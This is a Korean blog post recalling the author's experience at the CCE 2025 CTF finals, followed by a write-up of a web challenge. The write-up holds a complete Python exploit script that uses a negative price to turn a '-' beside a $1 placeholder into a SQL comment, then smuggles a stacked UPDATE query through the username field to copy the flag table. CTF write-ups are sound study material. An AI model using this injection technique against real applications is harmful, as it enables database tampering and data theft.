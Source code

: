 ```yaml
---
title: "CCE 2025 Finals 소감과 정보자원관리원 WriteUp"
description: "CCE 2025 Finals 소감과 정보자원관리원 WriteUp"
published: 2025-09-16
tags: [ctf]
category: hacking
draft: false
---
```


# CCE 2025 FINALS
인생 첫 대규모 ctf 본선이었다. 대회장을 들어서자마자 바로 그 생각밖에 안들었던 것 같다. **진짜 커도 너무 컸다**. \
옆자리에는 간간히 얼굴만 알아오던 네임드가 앉아있고 국가에서 주최하는 대회다보니 군복을 입은(곧 나의 미래가 될) 사람들도 많았다.

대회가 시작될쯤 웅장한 사운드가 나의 긴장감을 더해주었다. 그렇게 3시간...

## 0솔
점심을 먹을때까지 쭉 0솔이었다. 큰 대회인만큼 문제가 어려워 0솔을 미리 예상하기는 하였지만 팀에 짐이 된다는 생각에 계속 초조해졌고 최악의 실수를 하게 되었다.
계속 풀이중이던 문제를 버리고 다른 문제로 갈아탄 것이었다. 이러면 안됬었는데... 0솔이 나더라도 ~~어짜피 수상은 못하니까~~ 한문제만 잡고 계속 풀었어야 했다.

그렇게 2시까지 0솔이었다. 이렇게는 안된다고 생각하고 그나마 익숙한 안드로이드를 내세워 android 리버싱... 문제를 하나 해결한 후, 다시 웹에만 집중하였다.

## 전략
방황은 여기까지 전략을 좀 세워보기로 했다. 
방대한 코드양을 가지고있던 취약점 패치 문제인 live fire 문제는 시간이 많이 걸릴 것 같은데 어짜피 시간이 지날수록 점수는 계속 낮아지고 해당 시첨에서 이미 500점정도? 감소된 상태라 풀어도 투자한 시간 대비 얻을 수 있는 점수가 없을 것이라고 생각하였다.

그래서 gpt에게 문제파일을 통채로 넘기고 나는 그나마 솔버가 있었던 정보자원관리원 문제를 풀기 시작했다...

## 바보 멍청이 말미잘
당연히 cce 문제인 만큼 gpt를 이용한 풀이는 쉽지 않았다. 과도하게 많은, 앞단에서 이미 막혀있는 취약점들을 다 찾아서 나한테 보고하였다. 심지어 SLA 테스트가 있어서 gpt한테 코드를 막 수정하라고 할 수 없어, 과감하게 버렸다.
여기까지는 맞는 판단이었던 것 같다.

하지만 정보자원관리원 풀이에서 바보같은 짓을 하고 말았다.

해당 문제에는 - 문자와 sql에 넘겨줄 인자 위치를 결정하는 \$1 문자가 붙어있는 쿼리가 존재하였다. \$1로 음수값을 넘겼다면 --가 완성되어 뒷부분이 주석처리되어 멀티쿼리 형식으로 sqli를 시도할 수 있었다.
하지만 나는 이를 찾아내지 못하고 약간 핀트를 잘못 잡아 \$1\$2 형식으로 붙어있는 경우만 고집하다가 결국 풀이에 실패하였다. 아니 왜 거기에만 몰두했지...

신기하게도 그 부분에 몰두하여 여러가지를 시도해보는데 약 3시간정도 걸렸는데 그 시간이 엄창 짧게 느껴져 다른 방법을 시도해볼 생각을 못하였다. 풀타임으로 이 문제만 잡고 있었다면 달랐을까...

## 업솔빙
아 풀었다

이런

풀고보니 쉬웠다

웹해킹은 항상 이런식이야 ㅡ.ㅡ

그래도 풀때 도파민이 어마어마했다.

와 내가 그래도 2솔짜리 문제를 풀긴 풀었네
하면서..

## 롸업

앞서 말했듯이. -랑 $1이 붙어있는 부분을 잘 찾아서 익스하면 된다.
음수검사가 있긴 한데
익스 보면서 알아서 상상하시길

```python
import re
import random
import requests
from bs4 import BeautifulSoup

UUID_RE = re.compile(r'/market/([0-9a-f-]{36})/(?:buy|donate)')
def get_market_uuid(html: str, target_name: str) -> str | None:
  soup = BeautifulSoup(html, 'html.parser')
  for tr in soup.select('tbody tr'):
    tds = tr.select('td.center')
    if not tds:
      continue
    name = tds[0].get_text(strip=True)
    if name != target_name:
      continue
    for form in tr.find_all('form', action=True):
      m = UUID_RE.search(form['action'])
      if m:
        return m.group(1)
  return None

BASE = "http://192.168.163.3:5011"

# prepare

auther = requests.Session()

auther_email = f"{random.randbytes(5).hex()}@exploit.me"
auther_id = random.randbytes(5).hex()
auther_pw = random.randbytes(5).hex()

print(f"auther_id: {auther_id}")
print(f"auther_pw: {auther_pw}")

auther.post(f"{BASE}/register", {"username": auther_id, "password": auther_pw, "email": auther_email})
auther.post(f"{BASE}/login", {"username": auther_id, "password": auther_pw})

target = random.randbytes(5).hex()
auther.post(f"{BASE}/market/new", {"name": target, "description": "exploit", "price": "1"})

markets = auther.get(f"{BASE}/market").text
target_uid = get_market_uuid(markets, target)

res = auther.post(f"{BASE}/market/{target_uid}/edit", {"name": target, "description": "exploit", "price": "-1", "visible": True})

# exploit
buyer = requests.Session()

leak_price = int(random.randbytes(1).hex(), 16)

buyer_id = random.randbytes(5).hex()
buyer_pw = random.randbytes(5).hex()
buyer_email = f"{auther_id}@exploit.me"

payload = f"\n;UPDATE sales_goods SET name=f.flag FROM (SELECT * from flag) f WHERE price={leak_price} RETURNING 1--{random.randbytes(1).hex()}"

print(f"buyer_id: {buyer_id}")
print(f"buyer_pw: {buyer_pw}")
print(f"payload: \n{payload}")

res1 = buyer.post(f"{BASE}/register", {"username": buyer_id, "password": buyer_pw, "email": buyer_email})
res2 = buyer.post(f"{BASE}/login", {"username": buyer_id, "password": buyer_pw})

res3 = buyer.post(f"{BASE}/market/new", {"name": "flag", "description": "exploit", "price": leak_price})

res4 = buyer.post(f"{BASE}/profile/edit", {"edit_username": payload, "password": buyer_pw, "email": buyer_email})

res5 = buyer.post(f"{BASE}/market/{target_uid}/buy")

print(f"session: {buyer.cookies.get_dict()}")

# print(res.text)
# print(res1.text)
# print(res2.text)
# print(res3.text)
# print(res4.text)
# print(res5.text)
```

# 여담
아니 무슨 다과가 겁나게 많았다. 그냥 오렌지만 통으로 13개에 캐이크만 8조각은 먹은듯\
쿠키는 취향이 아니라 덜먹었다

![img.png](./IMG_1579.jpg)
![img.png](./IMG_1592.jpg)